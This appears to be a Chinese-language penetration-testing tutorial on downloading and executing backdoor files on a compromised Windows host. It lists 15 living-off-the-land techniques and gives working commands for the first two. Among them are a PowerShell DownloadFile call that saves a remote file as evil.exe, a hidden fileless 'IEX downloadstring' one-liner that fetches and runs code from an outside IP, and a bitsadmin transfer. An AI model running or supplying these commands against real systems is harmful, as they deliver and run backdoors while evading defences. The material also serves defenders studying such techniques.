 当我们通过Web渗透获取了一个Shell，而且目标主机是Windows，我们该怎么去下载后门文件到目标主机上执行呢？

一般来说，实现Windows文件下载执行的方式不外乎以下几种方式。第一种，远程下载文件到本地，然后再执行；**第二种，远程下载执行，执行过程没有二进制文件落地，这种方式已然成为后门文件下载执行的首要方式****。**另外呢，只要你所在服务器的环境支持，你也可以通过任何一门语言来实现它，这种方式暂不在本文的讨论范围之内。

**在这里，****本文收集了15种常见的文件下载执行的方式，并结合具体案例**，让我们一起来看看是怎么实现的吧。

------

- PowerShell
- Bitsadmin
- certutil
- wget
- ipc$文件共享
- FTP
- TFTP
- WinScp
- msiexec
- IEExec
- mshta
- rundll32
- regsvr32 
- MSXSL.EXE
- pubprn.vbs

------

**1、PowerShell**

PowerShell是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用。

远程下载文件保存在本地：

~~~powershell
powershell (new-object System.Net.WebClient).DownloadFile('http://192.168.28.128/imag/evil.txt','evil.exe')
~~~

![image-20210119165606109](http://img-upaiyun-own.test.upcdn.net/image-20210119165606109.png)

远程执行命令：

~~~powershell
powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.28.128/imag/evil.txt'))"
~~~

![](http://img-upaiyun-own.test.upcdn.net/20200413-1.png)



**2、Bitsadmin**

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。

~~~powershell
bitsadmin /transfer n http://192.168.28.128/imag/evil.txt d:\test\1.txt
~~~
